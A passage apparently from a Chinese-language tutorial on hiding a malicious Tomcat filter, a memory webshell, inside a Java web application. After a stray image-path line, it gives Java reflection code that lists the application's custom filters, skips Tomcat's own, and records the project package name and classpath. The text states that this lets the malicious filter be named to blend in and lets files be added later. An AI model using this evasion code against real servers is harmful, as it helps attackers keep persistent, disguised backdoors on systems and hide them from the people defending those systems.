 首先第一步是对已有业务Filter的信息做收集，以确实恶意的filter需要怎样命名

排除`org.apache.tomcat`包下的系统`Filter`只考虑项目包的自定义`Filter`

（核心代码参考**c0ny1**师傅的**java-memshell-scanner**）

```java
String startName = "";
String path = "";
// 获取context
WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
StandardContext standardCtx = (StandardContext) webappClassLoaderBase.getResources().getContext();
HashMap<String, Object> filterConfigs1 = getFilterConfig(standardCtx);
Object[] filterMaps1 = getFilterMaps(standardCtx);
List<String> names = new ArrayList<>();
// 遍历已经存在的fitler
for (int i = 0; i < filterMaps1.length; i++) {
    Object fm = filterMaps1[i];
    Object appFilterConfig = filterConfigs1.get(getFilterName(fm));
    if (appFilterConfig == null) {
        continue;
    }
    Field _filter = appFilterConfig.getClass().getDeclaredField("filter");
    _filter.setAccessible(true);
    Object filter = _filter.get(appFilterConfig);
    String filterClassName = filter.getClass().getName();
    ApplicationFilterConfig afc = (ApplicationFilterConfig) appFilterConfig;
    // 拿到包名：a.b.class->a.b
    String[] temp = filterClassName.split("\\.");
    StringBuilder tmpName = new StringBuilder();
    for (int j = 0; j < temp.length - 1; j++) {
        tmpName.append(temp[j]);
        if (j != temp.length - 2) {
            tmpName.append(".");
        }
    }
    // 如果是tomcat的包略过
    if (tmpName.toString().contains("org.apache.tomcat")) {
        continue;
    }
    // 正确情况记录下包名和类名
    startName = tmpName.toString();
    // 拿到classpath为了后续添加文件
    URL url = filter.getClass().getResource("");
    path = url.toString();
    names.add(afc.getFilterName());
}
// a.b.c->a/b/c 后续有用
startName = startName.replaceAll("\\.", "/");
path = path.split("file:/")[1];
```
